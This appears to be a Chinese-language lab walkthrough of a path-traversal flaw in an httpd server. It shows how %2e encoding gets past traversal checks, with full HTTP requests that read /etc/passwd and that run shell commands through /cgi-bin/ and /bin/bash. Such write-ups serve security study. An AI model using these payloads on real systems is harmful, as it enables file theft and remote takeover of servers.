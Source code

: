 http://192.168.70.14:8080

![image-20240712093431020](https://image.201068.xyz/assets/image-20240712093431020.png)

#### 漏洞利用

`.`的url编码`%2e`

`../`使用`.%2e/`或 者`%2e%2e`绕过对路径穿越符的检测。

##### 条件

需要配合穿越的目录配置 `Require all  granted`，

攻击者可利用该漏洞实现路径穿越从而**读取任意文件**，

或者在配置了cgi的httpd程序中执行`bash`指令，从而有机会控制服务器。

##### 1.文件读取

```
/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```



```
GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: 192.168.70.14:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240712095430981](https://image.201068.xyz/assets/image-20240712095430981.png)

##### 2.命令执行

```
/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash
```

将请求方法修改为`POST` ，然后在请求体写入 **`echo;`要执行的命令** 然后将数据包放行即可

```
POST /cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash HTTP/1.1
Host: 192.168.70.14:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

echo; ls /
```
